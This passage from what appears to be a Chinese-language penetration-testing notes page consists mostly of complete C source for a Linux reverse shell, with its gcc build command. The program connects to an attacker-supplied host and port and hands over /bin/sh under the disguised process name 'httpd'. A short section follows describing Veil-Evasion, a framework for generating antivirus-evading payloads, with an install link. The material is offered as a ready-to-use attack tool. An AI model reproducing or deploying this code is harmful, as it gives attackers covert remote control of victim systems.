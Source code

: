   ```c
  ```

  

* linux shell

  gcc linux_reverse_shell.c -o linux

  ```c
  #include <stdio.h>
  #include <sys/socket.h>
  #include <arpa/inet.h>
  #include <stdlib.h>
  #include <string.h>
  #include <unistd.h>
  #include <netinet/in.h>
  int main(int argc, char *argv[])
  {
   struct sockaddr_in sock;
   int s;
   if (argc != 3)
   {
    fprintf(stderr, "uso: <rhost> <rport>\n"); exit(1);
   }
   sock.sin_family  = AF_INET;
   sock.sin_port = htons(atoi(argv[2]));
   sock.sin_addr.s_addr = inet_addr(argv[1]);
   s = socket(AF_INET, SOCK_STREAM, 0);
   connect(s,(struct sockaddr_in *)&sock, sizeof(struct sockaddr_in));
   dup2(s,0);
   dup2(s,1);
   dup2(s,2);
   execl("/bin/sh","httpd",(char *)0); //precess httpd
  }
  ```

## 六、Veil-evasion

  * 属于 `Veil-framework` 框架的一部分。
  * 由python 语言编写
  * 用于自动生成免杀 payload
      * 集成 msf payload ,支持自定义 payload
      * 集成各种注入技术
      * 集成各种第三方工具
          * Hypersion、PEScrambler、BackDoor Factory
    * 继承各种开发打包运行环境
      * python : pyinstaller / py2exe
      * C# : mone for.NET
      * C : mingw32



安装： 

https://github.com/Veil-Framework
